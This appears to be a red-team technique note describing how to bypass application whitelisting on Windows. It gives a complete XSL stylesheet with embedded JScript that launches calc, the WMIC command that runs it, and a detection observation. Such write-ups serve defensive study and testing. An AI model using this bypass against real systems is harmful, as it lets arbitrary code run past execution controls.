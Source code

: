 # Application Whitelisting Bypass with WMIC and XSL

Another application whitelist bypassing technique discovered by Casey @subTee, similar to squiblydoo:

{% content-ref url="t1117-regsvr32-aka-squiblydoo.md" %}
[t1117-regsvr32-aka-squiblydoo.md](t1117-regsvr32-aka-squiblydoo.md)
{% endcontent-ref %}

## Execution

Define the XSL file containing the jscript payload:

{% code title="evil.xsl" %}
```csharp
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("calc");
	]]> </ms:script>
</stylesheet>
```
{% endcode %}

Invoke any wmic command now and specify /format pointing to the evil.xsl:

{% code title="attacker@victim" %}
```csharp
wmic os get /FORMAT:"evil.xsl"
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-04-10 22-05-24.png>)

## Observation

Calculator is spawned by svchost.exe:

![](<../../.gitbook/assets/Screenshot from 2019-04-10 21-57-52.png>)

## References

{% embed url="http://subt0x11.blogspot.com/2018/04/wmicexe-whitelisting-bypass-hacking.html" %}

